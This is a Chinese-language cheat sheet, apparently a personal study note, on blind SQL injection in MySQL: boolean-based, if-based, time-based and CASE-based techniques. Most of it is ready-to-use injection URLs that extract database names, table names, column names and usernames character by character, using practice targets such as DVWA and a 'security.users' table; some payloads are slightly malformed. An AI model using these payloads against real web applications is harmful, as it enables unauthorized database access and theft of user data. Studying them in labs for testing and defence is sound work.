 # SQL 注入-盲注手法

---------------------
+ 基于布尔的盲注

```mysql
Length（）  #函数 返回字符串的长度
Substr（）  #截取字符串
Ascii（）   #返回字符的ascii码
ord（）     #类似于ascii码
mid（）     #和substr用法相同
```

-----------------------

+ **以下操作请使用二分法**
   + **报数据库名**
    ```mysql
    http://url/?id=1'and (length(database()))>10--%20  #测试数据库名的长度
    http://url/?id=1%27 and ord(substr(database(),1,1))=118--%20  #爆出数据库名的第一位
    http://url/?id=1%27 and ord(substr(database(),2,1))=118--%20  #爆出数据库名的第二位
    ```
**后面依次类推...**
---------------------

+ **猜解指定数据库下的表名长度**
```mysql
?id=1' and length((select table_name from information_schema.tables where table_schema='dvwa'  limit 0,1))>5--%20   #猜解当前数据库中第一张表名的长度
?id=1' and length((select table_name from information_schema.tables where table_schema='dvwa'  limit 1,1))=5--  #猜解当前数据库中第二张表名的长度
```

- **爆表名**
```mysql
?id=1' and ord(mid((select table_name from information_schema.tables where table_schema='dvwa' limit 0,1),1,1))=103--   #猜解dvwa数据库下第一张表的第一个字符的ascii码
?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema='dvwa' limit 0,1),1,1))=103--   #同上
?id=1' and ord(mid((select table_name from information_schema.tables where table_schema='dvwa' limit 0,1),2,1))=103--   #猜解dvwa数据库下第一张表的第二个字符的ascii码
```

**接下来依次类推....**
- **爆字段长度**
```mysql
/?id=1' and length((select column_name from information_schema.columns where table_schema='security'  and table_name='users' limit 0,1))>7--  #猜解指定数据库中的指定表中的第一个字段名长度
/?id=1' and length((select column_name from information_schema.columns where table_schema='security'  and table_name='users' limit 1,1))>7--  #猜解指定数据库中的指定表中的第二个字段名长度
```

- **爆字段**
接下来自由发挥吧....
猜解字段内容长度

```mysql
/?id=1' and length(select username from security.users limit 0,1)>3
/?id=1' and length(select username from security.users limit 0,1)>4
```
上述语句为猜解指定数据库与表名中的第一条字段名的长度

- **爆字段内容**

```mysql
/?id=1' and ascii(substr(select username from security.users limit 0,1),1,1)-- - #爆破username字段第1个字符的ascii码
/?id=1' and ascii(substr(select username from security.users limit 0,1),2,1)-- - #爆破username字段第2个字符的ascii码
```

------------------------

# 基于if语句的显注

+ 案例：
>
当id=1 页面呈现"nihao"字符
当id=1 页面呈现"mucn"字符

if语句详解
>if(条件, 值1, 值2)
当条件为真时返回值1，条件为假时返回值2

直接使用if语句构造注入
```mysql
?id=if(1=1,1,2)--+       #如果1=1,那么回显1，也就是回显nihao
?id=if(1=2,1,2)--+       #原理同上
```

-------------------------

## 基于时间的盲注

+ 主要还是基于上面的if语句去判断

```mysql
例子
id=1' if(1=1,sleep(2),2)-- -   #如果1=1那么就执行sleep(2) 然后根据页面的回显时间进行判断前面语句是否正确
```

------------------------
## 判断语句02

**sql语法**
```sql
CASE '值语句'  WHEN '值' THEN '执行语句'  WHEN 2 THEN  sleep(3)  ELSE '其他' END
```
**案例：**
```sql
1') AND (CASE length(database()) WHEN 1 THEN sleep(4) else '0' end) AND ('1'='1
```

以后遇见更多的就再添加
